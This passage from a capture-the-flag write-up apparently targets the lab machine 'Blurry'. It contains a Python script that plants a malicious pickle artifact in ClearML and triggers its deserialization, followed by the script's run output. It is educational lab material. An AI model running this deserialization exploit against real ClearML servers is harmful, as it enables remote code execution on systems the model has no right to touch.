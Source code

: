 ```
task.upload_artifact(name="sploit", artifact_object="pickle_artifact.pkl", retries=2, wait_on_upload=True, auto_pickle=False)

print(task.artifacts['sploit'])

# update task
print("\n[*] Updating Task Artifact")
headers = {
    "Authorization": f"Bearer {token}",
    "Content-Type": "application/json",
}

data = {
    "task": task.id,
    "artifacts": [
        {
            "key": "sploit",
            "type": "pickle",
            "mode": "output",
            "timestamp": time.time(),
            "uri": task.artifacts.get('sploit').url
        }
    ]
}
resp = requests.post(
    'http://api.blurry.htb/tasks.add_or_update_artifacts',
    json=data,
    headers=headers,
)
print(resp.text)
task.close()

# review task
print("\n[*] Reviewing / Triggering Deserialization")
task = Task.get_task(project_name="Black Swan", task_name="0xdfping")
print(task.artifacts['sploit'])

#trigger task
task.artifacts['sploit'].get()

```

It creates the object. Updates the artifact, then reviews and triggers (assuming I’m running a vulnerable version) the artifact:

```

(venv) oxdf@hacky$ python create_task.py 
[*] Creating Task
ClearML Task: created new task id=80f161137f6a4672b3523416095143b3
2024-06-10 13:41:05,771 - clearml.Task - INFO - No repository found, storing script code instead
ClearML results page: http://app.blurry.htb/projects/116c40b9b53743689239b6b460efd7be/experiments/80f161137f6a4672b3523416095143b3/output/log
{'name': 'sploit', 'size': 58, 'type': 'custom', 'mode': <ArtifactModeEnum.output: 'output'>, 'url': 'http://files.blurry.htb/Black%20Swan/0xdfping.80f161137f6a4672b3523416095143b3/artifacts/sploit/pickle_artifact.pkl', 'hash': '9b127487b99ba55ae7223961ea443c2cc592110f5b48e90bec325662ba4298e5', 'timestamp': datetime.datetime(2024, 6, 10, 13, 41, 7), 'metadata': {}, 'preview': 'pickle_artifact.pkl - 58 bytes\n'}

[*] Updating Task Artifact
{"meta":{"id":"b4a2e699d36f47e3ab1601ce7103f3d2","trx":"b4a2e699d36f47e3ab1601ce7103f3d2","endpoint":{"name":"tasks.add_or_update_artifacts","requested_version":"2.27","actual_version":"2.10"},"result_code":200,"result_subcode":0,"result_msg":"OK","error_stack":"","error_data":{}},"data":{"updated":1}}
```